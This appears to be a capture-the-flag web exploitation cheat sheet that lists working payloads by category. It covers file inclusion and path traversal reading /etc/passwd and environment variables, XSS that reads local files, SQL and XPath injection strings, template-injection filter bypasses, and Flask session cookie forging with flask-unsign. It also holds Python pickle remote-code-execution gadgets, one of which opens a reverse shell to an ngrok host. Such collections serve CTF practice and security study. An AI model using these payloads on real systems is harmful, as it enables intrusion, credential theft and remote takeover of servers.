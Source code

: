 ### Tricks 

- **Protocols**
  - `file:///etc/passwd`

- **Headers**
  - `X-Forwarded-Host`

### Local File Inclution
  - `/robots.txt`
  - `/.git`
  - `/sitemap.xml`
  - `?file=php://filter/convert.base64-encode/resource=/etc/passwd`
  - `?file='.system("cat /flag*").'`
  - `/../../../../../../proc/self/environ`
  - `/_nuxt/@fs/flag.txt`

### XSS

  - **LFI** read file
```javascript
<script>
  x = new XMLHttpRequest;
  x.onload=function() {
    document.write(this.responseText)
  }; 
  x.open("GET", "file:///etc/passwd");
  x.send();
</script>;
````

### SQLi

- `UNION`

```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

### XPath Injection

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

### Type juggling with data

- `Playing with header`

  - `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
  - [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

### Server side template injection (SSTI)

- `Python`

  - Filtered `.`, `[]`
    - `obj.attribute` -> `obj|attr('attribute')` (`attr` is a filter in jinja template engine)
    - `obj[index]` -> `obj.__getitem__(index)` -> `obj|attr('__getitem__')(index)`
    - `obj['key']` -> `obj.__getitem__('key')` -> `obj|attr('__getitem__')('key')`

### JWT

- `Flask session cookie`
    - `flask-unsign --decode --cookie eyJsb2dnZWRfaW4iOmZhbHNlfQ.Yg9geQ.s8MKSRemMQyS5S60QTS0lY0Xg0o`
    - `flask-unsign --unsign --cookie < cookie.txt`
    - `flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'`
    
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


### Python pickle

- **RCE**
```python
import pickle, base64

class DillPickle:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, (['/bin/cat', '/ls'],))

print(base64.b64encode(pickle.dumps(DillPickle())).decode())
```

- **Get shell**
```python
class RCE(object):
  def __reduce__(self):
    return (os.system,('''python2 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.jp.ngrok.io",13180));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

p = base64.b64encode(pickle.dumps(RCE())).decode()
```

### Imagemagick

- File upload read local file (xxe)

  - Payload 
    ```
      <?xml version="1.0" encoding="UTF-8"?>
      <svg width="500px" height="500px">
        <image width="500" height="500" href="text:/etc/passwd" />
      </svg>
    ```

